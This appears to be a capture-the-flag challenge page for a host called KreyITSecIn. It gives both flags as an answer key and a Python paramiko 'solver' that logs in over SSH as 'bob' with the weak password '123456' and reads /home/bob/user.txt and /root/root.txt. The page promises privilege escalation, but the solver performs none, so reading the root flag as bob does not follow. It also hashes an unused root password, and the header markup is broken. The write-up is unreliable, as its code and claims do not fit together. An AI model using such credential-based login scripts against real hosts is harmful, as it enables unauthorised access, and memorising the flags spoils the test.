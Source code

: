 ![](assets/images/banner.png)



<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<fontFlag</font>

​		27<sup>th</sup> Sep 2023

​		Challenge Author(s): Manuel Krey

### Description:

This challenge is designed to test participants' skills in penetration testing and privilege escalation. Participants must gain access to a vulnerable host and retrieve both the user and root flags.

### Objective

The goal of the challenge is to extract the user.txt and root.txt flags by following the steps taken on the vulnerable host.

### Difficulty:

`medium`

### Flag:

User: `HTB{e10adc3949ba59abbe56e057f20f883e}`  
Root: `HTB{Y0uhav3Captur3Dth3FlaG}`

# Challenge

You have access to the vulnerable host, KreyITSecIn. Your objective is to find the user.txt and root.txt flags. The user.txt flag is located in the home directory of the user "bob," and the root.txt flag is in the root directory.

# Solver

```python
import paramiko
import hashlib

# Target host and SSH credentials
target_host = "10.0.2.4"
target_port = 22
target_user = "bob"
target_password = "123456"  # This is the password used in the challenge

# Establish an SSH connection
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
try:
    ssh.connect(target_host, port=target_port, username=target_user, password=target_password)
    print(f"Successfully logged in as {target_user}@{target_host}:{target_port}!")

    # Retrieve the user flag
    user_flag_path = "/home/bob/user.txt"
    stdin, stdout, stderr = ssh.exec_command(f"cat {user_flag_path}")
    user_flag = stdout.read().strip()
    print(f"User Flag: {user_flag}")

    # Retrieve the root flag
    root_flag_path = "/root/root.txt"
    stdin, stdout, stderr = ssh.exec_command(f"cat {root_flag_path}")
    root_flag = stdout.read().strip()
    print(f"Root Flag: {root_flag}")

    # Calculate the MD5 hash of the root password
    root_password = "123456789"
    root_password_md5 = hashlib.md5(root_password.encode()).hexdigest()
    print(f"MD5 Hash of Root Password: {root_password_md5}")

except Exception as e:
    print(f"Error connecting to the host: {e}")
finally:
    ssh.close()


```

